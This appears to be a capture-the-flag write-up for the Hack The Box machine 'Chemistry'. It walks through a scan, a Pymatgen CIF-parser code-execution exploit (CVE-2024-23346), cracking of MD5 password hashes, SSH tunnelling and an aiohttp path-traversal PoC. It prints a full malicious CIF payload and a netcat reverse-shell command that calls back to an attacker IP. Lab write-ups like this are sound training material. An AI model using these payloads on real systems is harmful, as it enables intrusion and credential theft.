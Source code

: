 <br><br>
**Platform : Hack The Box**
**Box : Chemistry**
**Difficulty : Easy**
**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
==`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)`==  
==`5000/tcp open upnp?`==  
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.

<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
Chemistry - HTB - Easy/Pasted image 20241023002915.png<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> *data_Example*
> *audit_creation_date            2018-06-08*
> *_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"*
> 
> *loop*
> *parent_propagation_vector.id*
> *_parent_propagation_vector.kxkykz*
> *k1 [0 0 0]*
> 
> *_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'*
> 
> 
> *_space_group_magn.number_BNS  62.448*
> *_space_group_magn.name_BNS  "P  n'  m  a'  "*
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![[Pasted image 20241023004209.png]]

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>
![[Pasted image 20241023010333.png]]

<br><br>

![[Pasted image 20241023010740.png]]

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![[Pasted image 20241102202421.png]]
<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>
Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost
<br><br>

![[Pasted image 20241023012150.png]]
<br><br>
To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:
<br><br>
`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>
This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*
<br><br>
![[Pasted image 20241102200205.png]]
<br><br>
and this is the first result if i search it on google:
<br><br>
https://github.com/z3rObyte/CVE-2024-23334-PoC
<br><br>
It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>
![[Pasted image 20241102200634.png]]
<br><br>

And...

<br><br>
![[Pasted image 20241102201153.png]]
<br><br>
Success! We have code execution as root user!
